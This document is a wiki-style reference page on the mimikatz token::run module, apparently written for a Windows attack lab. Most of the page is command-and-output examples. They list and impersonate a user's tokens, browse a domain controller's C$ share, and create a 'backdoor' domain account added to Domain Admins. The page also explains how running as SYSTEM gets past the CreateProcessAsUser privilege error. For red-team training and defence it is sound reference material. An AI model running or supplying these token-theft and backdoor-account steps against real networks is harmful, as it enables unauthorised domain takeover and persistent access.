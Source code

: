 # run

`token::run` executes a new process with its token.

It has the following command line arguments:

* [`/id`](./#id): Token id to use for the new process
* [`/user`](./#user): Execute the process with the tokens of this user (instead of specifying the token ID)..
* [`/process`](./#process): The process to run. By default, the command `whoami` is executed.

## Preparation

List tokens of user to impersonate using the `token::list` module:

```
mimikatz # token::list /user:ffast
Token Id  : 0
User name : ffast
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
4432    {0;000563b2} 2 F 2839551        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
668     {0;00050574} 0 D 329079         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (12g,24p)       Impersonation (Impersonation)
668     {0;000563e4} 2 L 353269         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
800     {0;000563e4} 2 L 456098         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 380750         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 387116         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,01p)       Impersonation (Identification)
920     {0;000563e4} 2 L 436160         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
[...]
```

## id

Run a command using a specified token by it's token ID. By default, the command `whoami` is executed:

```
mimikatz # token::run /id:457263
Token Id  : 457263
User name :
SID name  :

676     {0;000f0ac5} 3 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
winattacklab\ffast
```

## user

Run a command using a specified token by it's username. The domain name must not be specified. By default, the command `whoami` is executed:

```
mimikatz # token::run /user:ffast
Token Id  : 457263
User name :
SID name  :

676     {0;000f0ac5} 3 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
winattacklab\ffast
```

## process

Other processes to spawn can be specified.

Example to access DC system drive:

```
mimikatz # token::run /id:1075487 /process:"cmd.exe /c dir \\dc1\c$"
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)
Primary
 Volume in drive \\dc1\c$ is Windows
 Volume Serial Number is 6A6C-0DE3

 Directory of \\dc1\c$

05/31/2023  06:30 AM    <DIR>          AzureData
05/31/2023  07:09 AM    <DIR>          ddns_server
05/31/2023  07:04 AM    <DIR>          inetpub
05/31/2023  06:46 AM    <DIR>          Packages
05/05/2023  11:31 AM    <DIR>          PerfLogs
05/31/2023  07:04 AM    <DIR>          Program Files
05/05/2023  12:26 PM    <DIR>          Program Files (x86)
05/31/2023  07:10 AM    <DIR>          terraform
05/31/2023  07:06 AM    <DIR>          Users
05/31/2023  07:05 AM    <DIR>          Windows
05/31/2023  06:33 AM    <DIR>          WindowsAzure
05/31/2023  07:07 AM    <DIR>          WSUS
               0 File(s)              0 bytes
              12 Dir(s)  15,918,473,216 bytes free
```

Add backdoor user:

```
mimikatz # token::run /id:1075487 /process:"cmd.exe /c net user backdoor Password.123 /add /domain && net group \"Domain Admins\" backdoor /add /domain && net user backdoor /domain"
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
The request will be processed at a domain controller for domain winattacklab.local.

The command completed successfully.

The request will be processed at a domain controller for domain winattacklab.local.

The command completed successfully.

The request will be processed at a domain controller for domain winattacklab.local.

User name                    backdoor
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/20/2023 3:59:27 PM
Password expires             Never
Password changeable          6/20/2023 3:59:27 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```

## Demystifying the `kull_m_process_run_data` Error

Even as a local administrator, you can get the `kull_m_process_run_data` error:

```
mimikatz # token::run /id:1075487 /process:whoami.exe
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
ERROR kull_m_process_run_data ; CreateProcessAsUser (0x00000522)
```

- The error message says that the `CreateProcessAsUser` function could not be executed.

The `token::run` command uses the function `CreateProceasAsUser` to create a
new process in the security context of the specified token and requires the
following privileges (source: [CreateProcessAsUserA function (processthreadsapi.h)](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)):

- `SeIncreaseQuotaPrivilege` privilege
- `SeAssignPrimaryTokenPrivilege` privilege (if the token is not assignable)

A local admin has the permission to get the `SeIncreaseQuotaPrivilege` privilege but not the `SeAssignPrimaryTokenPrivilege` privilege:

```
mimikatz # privilege::name SeIncreaseQuotaPrivilege
Privilege '5' OK

mimikatz # privilege::name SeAssignPrimaryTokenPrivilege
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (3) c0000061
```

If you start mimikatz as `SYSTEM`, these privileges can be acquired:

```
mimikatz # privilege::name SeIncreaseQuotaPrivilege
Privilege '5' OK

mimikatz # privilege::name SeAssignPrimaryTokenPrivilege
Privilege '3' OK
```

Then, it's possible to use the `token::run` command and use stolen tokens as primary tokens.
